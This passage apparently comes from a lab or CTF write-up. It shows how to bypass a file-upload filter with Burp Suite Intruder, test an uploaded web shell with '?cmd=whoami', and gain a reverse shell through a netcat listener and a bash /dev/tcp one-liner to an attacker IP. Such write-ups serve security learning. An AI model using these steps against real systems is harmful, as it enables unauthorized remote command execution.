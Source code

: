 ### **- We will upload a file again and this time we will intercept the request with Burpsuite to do a brute force attack to find the extension that we can upload:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e7eff100-9117-499f-b17d-baa5243fb070"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/c0527740-b781-4aba-bde9-c0083390e438"></picture><br>We send the request to the intruder</h3>

```bash
CTRL+I
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/912aee89-1c96-46b8-9559-c281774ab54e"></picture><br>We select the part where we want the injection to be replaced to test different types of extensions</h3>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/37e9fab4-6b49-42e7-a920-56aae765f2b1"></picture><br>We add the different types of files we want to test</h3>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/606a8026-11b3-40ce-99dd-2c54b1606445"></picture></h3>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/787a72e8-95a4-401a-a80c-45d9938813e5"></picture><br>By means of a REGEX we can incorporate a column that tells us the status of the file upload so we will know when it was successful.</h3>

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/91d1ffdc-8ed6-4b6a-a49c-979069bd1b53"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/54f122a6-edc8-4635-b681-16e3006269c0"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/94670640-dd90-48e6-b2bc-000b9b72bd47"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9d3334b9-0725-4a3c-8287-b3d7d86036ed"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/93e99499-3898-4587-b2e1-9a581959f2fa"></picture><br>Successfully uploaded the compatible files now we have to test which of them works</h3>

### **- We will test the files by adding at the end ?cmd=whoami**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/0840fa5b-3770-4740-b3bf-3511c2555707"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/2c769303-9e6c-4c5f-9100-50a615086cdb"></picture><br>works!</h3>

### **- Now we will enter a linner command to send us a reversehell to our attacker machine**

### **We will listen on port 443 with NETCAT**
```bash
nc -nlvp 443
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/377d9fb7-f309-4725-a708-bdd6023d63a7"></picture></h3>

### **In our browser we enter the linner command**

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.1.188/443 0>%261"
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/cd0c3b3a-06cc-4966-ae72-aac89c3d2f0d"></picture><br>Now we will get a connection</h3>
